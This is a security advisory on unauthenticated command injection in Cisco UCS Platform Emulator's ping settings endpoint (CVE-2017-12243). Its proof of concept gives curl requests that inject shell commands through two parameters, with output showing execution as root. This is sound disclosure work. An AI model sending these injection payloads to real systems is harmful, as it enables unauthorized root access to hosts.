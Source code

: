 ## Vulnerabilities Summary
The following advisory describes two remote code execution vulnerabilities found in Cisco UCS Platform Emulator version 3.1(2ePE1).

Cisco UCS Platform Emulator is the Cisco UCS Manager application bundled into a virtual machine (VM). The VM includes software that emulates hardware communications for the Cisco Unified Computing System (Cisco UCS) hardware that is configured and managed by Cisco UCS Manager. For example, you can use Cisco UCS Platform Emulator to create and test a supported Cisco UCS configuration, or to duplicate an existing Cisco UCS environment for troubleshooting or development purposes.

The vulnerabilities found in Cisco UCS Platform Emulator are:

Unauthenticated remote code execution
Authenticated remote code execution

## Credit
An independent security researcher has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program

## Vendor response
The vendor has released patches to address this vulnerability and issue the following CVE:

CVE-2017-12243

Vulnerabilities details
Unauthenticated remote code execution
User controlled input is not sufficiently sanitized when passed to IP/settings/ping function. An unauthenticated attacker can inject commands via PING_NUM and PING_IP_ADDR parameters. Those commands will run as root on the remote machine.

## Proof of Concept

```
curl "http://IP/settings/ping?ping_num=1&ping_ip_addr=127.0.0.1%3buname+-a%3b#"
curl -k "https://IP/settings/ping?ping_num=1&ping_ip_addr=127.0.0.1%3buname+-a%3b#"
curl "http://IP/settings/ping?ping_num=1%3bid%3b#&ping_ip_addr=127.0.0.1"
curl -k "https://IP/settings/ping?ping_num=1%3buname+-a%3b#&ping_ip_addr=127.0.0.1"
```

By sending one of the above requests the Cisco UCS will response with:

```
/sample output/
================
demo@kali:~/poc$ curl -k "http://IP/settings/ping?ping_num=1&ping_ip_addr=127.0.0.1%3buname+-a%3b#"
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.017 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.017/0.017/0.017/0.000 ms
Linux ucspe 2.6.32-431.el6.i686 #1 SMP Fri Nov 22 00:26:36 UTC 2013 i686 i686 i386 GNU/Linux

demo@kali:~/poc$ curl "http://IP/settings/ping?ping_num=1%3bid%3b#&ping_ip_addr=127.0.0.1"
uid=0(root) gid=0(root) groups=0(root)
```
